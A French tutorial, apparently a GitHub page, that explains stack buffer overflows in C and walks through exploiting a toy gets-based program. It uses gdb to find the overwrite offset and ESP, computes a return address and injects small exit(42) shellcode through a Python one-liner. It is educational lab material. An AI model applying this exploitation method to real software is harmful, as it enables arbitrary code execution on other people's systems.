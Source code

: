 # Stack Buffer Overflow

## Introduction

Certaines fonctions, notamment en langage C, sont dites "dangereuses" à utiliser car elles ne vérifient pas la taille de leurs paramètres. Une vulnérabilité Buffer Overflow consiste à mettre certains paramètres spécifiques afin que le programme exécute ce que l'attaquant a voulu qu'il exécute (et non que le programme exécute ce qu'il était censé exécuter). 

Par exemple, les fonctions comme *gets* sont vulnérables à ce genre d'attaque.

## Pile d'éxécution

Lorsqu'un programme est exécuté, plusieurs valeurs sont empilées pour la bonne exécution des instructions. Lorsque l'on appelle une nouvelle fonction (**CALL**), on empile d'abord EIP pour se souvenir de la prochaine instruction à exécuter (après l'appel de cette fonction). On jump sur l'adresse représentant la nouvelle fonction à appeler (**JMP**). On empile ensuite EBP pour créer la nouvelle stack frame et on met dans EBP l'ESP de la stack frame précédente. Enfin, on push à la suite les différentes variables locales. 

Si ces variables locales sont trop grosses, il est donc possible d'écrire sur la sauvegarde EBP et sur la sauvegarde EIP. Ecrire sur EIP est grave car on peut donc faire pointer sur un code exécutable. La plupart du temps, lorsque EIP pointe sur du code exécutable dans une zone mémoire interdite et on obtiendra un *SEGFAULT*. 

Si EIP pointe sur les variables locales, cela ne posera pas de problèmes et c'est cela qu'on exploite dans un *Buffer Overflow*.

## Attaque sur un exemple concret

Analysons l'exemple *vuln.c*

### Calcul du payload

Nous voulons connaître la taille du paramètre pour lequel on commence à écraser la sauvegarde EIP. 

```
(gdb) run
Starting program: /home/user/Desktop/test/buffer/a.out 
Tapez votre prénom :
00000000001111111112222222222333333333344444444445555555555666666666677

Program received signal SIGSEGV, Segmentation fault.
0x56556040 in puts@plt ()
(gdb) print $eip
$1 = (void (*)()) 0x56556040 <puts@plt>
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/Desktop/test/buffer/a.out 
Tapez votre prénom :
000000000011111111122222222223333333333444444444455555555556666666666777

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) print $eip
$2 = (void (*)()) 0x0
```
En faisant des tests successifs en variant la taille du paramètres de *gets*, on remarque que la valeur de EIP change lorsque l'on écrase la sauvegarde de cette dernière. 
On en déduit donc que la taille du *payload* est de 72. 

### Calcul de l'adresse EIP

Nous allons utiliser *ulimit* pour générer un fichier core à chaque fois qu'on fait un core dump. Pour cela, on fait ```ulimit -c 1024```. Ensuite, on exécute le programme et on met un argument de plus de 72 caractères. Un fichier *core* sera généré. 

On utilise donc *gdb* avec l'exécutable et le fichier core précédemment généré. Puis, on place un breakpoint dans la fonction qui appelle *gets*, juste avant cet appel de *gets*. Puis, on récupère l'adresse ESP.

```
$ gdb a.out core

Core was generated by `./a.out'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000 in ?? ()
(gdb) disas ask_me_im_famous
Dump of assembler code for function ask_me_im_famous:
   0x565561a9 <+0>:	push   %ebp
   0x565561aa <+1>:	mov    %esp,%ebp
   0x565561ac <+3>:	push   %ebx
   0x565561ad <+4>:	sub    $0x40,%esp
   0x565561b0 <+7>:	call   0x5655620a <__x86.get_pc_thunk.ax>
   0x565561b5 <+12>:	add    $0x2e4b,%eax
   0x565561ba <+17>:	lea    -0x44(%ebp),%edx
   0x565561bd <+20>:	push   %edx
   0x565561be <+21>:	mov    %eax,%ebx
   0x565561c0 <+23>:	call   0x56556030 <gets@plt>
   0x565561c5 <+28>:	add    $0x4,%esp
   0x565561c8 <+31>:	nop
   0x565561c9 <+32>:	mov    -0x4(%ebp),%ebx
   0x565561cc <+35>:	leave  
   0x565561cd <+36>:	ret    
End of assembler dump.
(gdb) b *0x565561c0
Breakpoint 1 at 0x565561c0
(gdb) run
Starting program: /root/Desktop/test/buffer/a.out 
Tapez votre prénom :

Breakpoint 1, 0x565561c0 in ask_me_im_famous ()
(gdb) print $esp
$1 = (void *) 0xffffd2c4
```
Avec *dmesg*, on peut voir la réelle adresse ESP : 
```
$ dmesg
[18291.252097] a.out[5439]: segfault at 30303030 ip 0000000030303030 sp 00000000ffffd364 error 14 in a.out[56555000+1000]
```

### Calcul de l'adresse où placer le payload

On a trouvé que l'adresse ESP est 0xffffd364 et le payload est de 72 donc il faudra placer le payload à l'adresse : 
0xffffd364 - 72 = 4294955876 - 72 = 4294955804 = 0xffffd31c

### Injection du payload

```
6A 01 58   # mov eax, 1  # syscall = exit ;
6A 2A 5B   # mov ebx, 42 # status = 42 ;
CD 80      # int 0x80    # return syscall(args) ;
```
python -c "print '\x6A\x01\x58\x6A\x2A\x5B\xCD\x80'.ljust(68,'\x90') + '\x1C\xD3\xFF\xFF'" | ./a.out
Il ne faut pas oublier que l'adresse doit être écrite en little endian. 


